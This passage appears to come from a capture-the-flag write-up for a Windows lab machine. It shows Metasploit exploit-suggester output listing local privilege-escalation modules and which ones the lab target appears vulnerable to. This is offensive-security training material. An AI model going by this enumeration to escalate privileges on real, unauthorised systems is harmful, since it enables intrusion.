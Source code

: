 
Running the suggester gives the following recommended escalation modules:

![](Linux/Linux-Easy/Valentine/Screenshots/Windows/Windows-Easy/Devel/Screenshots/moduledevel.png)

```sh
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/cve_2020_0787_bits_arbitrary_file_move: The service is running, but could not be validated. Vulnerable Windows 7/Windows Server 2008 R2 build detected!
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.

```
